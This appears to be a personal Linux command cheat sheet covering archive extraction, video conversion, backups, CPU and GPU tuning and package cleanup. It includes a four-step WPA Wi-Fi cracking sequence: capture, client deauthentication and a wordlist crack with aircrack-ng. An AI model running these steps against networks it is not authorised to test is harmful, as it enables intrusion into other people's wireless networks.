 unrar all archives in current folder
```$ for f in *.rar;do unrar e -o+ $f;done```  
show folder size 
```$ du -h --max-depth=1```  
convert movie to xbox360 format $ ffmpeg -i "file.mkv" -vcodec libx264 -acodec ac3 -ab 160k "file.mp4"  
batch convert above $ for i in *.mkv;   do name=`echo $i | cut -d'.' -f1`;   echo $name;   ffmpeg -i "$i" "${name}.mp4" -vcodec libx264 -acodec ac3 -ab 160k; done  
monero daemon $ monerod --data-dir /mnt/cloud/monero  
import gpg key for aur packages $ gpg --receive-key keyid  
ethereum blockchain sync $ geth --syncmode "fast"  
show external ip $ curl ifconfig.me  
weather forecast $ curl wttr.in/Wilhelmshaven  
set gtk cursor global value for browsers $ gsettings set org.gnome.desktop.interface cursor-theme Adwaita  
calculator $ bc  
backup through ssh $ rsync -avz /source/folder/ user@remoteadress:/remote_folder  
unrar all archives in folder (autoverwrite enabled)  $ find . -name "*.rar" -exec unrar x -o+ {} \;  
show cpu frequency $ cat /proc/cpuinfo | grep "MHz" & watch -n1 "cat /proc/cpuinfo | grep \"^[c]pu MHz\""  
force cpu governor $ sudo cpupower frequency-set -g powersave or performance  
list available governors $ cat /sys/devices/system/cpu/cpu0/cpufreq/scaling_available_governors  
show network usage $ iftop  
create playlist $ ls -1 *.mp4 > playlist.m3u  
cut characters playlist example $ cut -c 50- playlist.m3u > newplaylist.m3u  
batch rename delete example $ for file in *text* ; do mv "$file" "`echo $file | sed 's/\text//'`" ; done  
output orphaned packages to file & run removal  $ sudo pacman -Qqdt > pkglist.txt & sudo pacman -R - < pkglist.txt  
hack wpa $ airmon-ng start wlp2s0f0u4 & airodump wlp2s0f0u4mon  
hack wpa target network $ airodump-ng -c 10 --bssid 00:14:BF:E0:E8:D5 -w /root/aircrack/ wlp2s0f0u4mon  
force handshake $ aireplay-ng –0 2 –a [router bssid] –c [client bssid] wlp2s0f0u4mon  
crack with wordlist $ aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/aircrack/*.cap  
get nvme temperature $ sudo nvme smart-log /dev/nvme0 | grep temperature  
delete all but given extension $ find . -type f ! -name '*.txt' -delete  
amd vega current values $ watch -n 0.5 sudo cat /sys/kernel/debug/dri/0/amdgpu_pm_info  
disable vsync environment variable $ vblank_mode=0  
current vega voltage values $ sudo cat /sys/class/drm/card0/device/pp_od_clk_voltage  
force high dpm on graphics card $ echo high > /sys/class/drm/card0/device/power_dpm_force_performance_level  
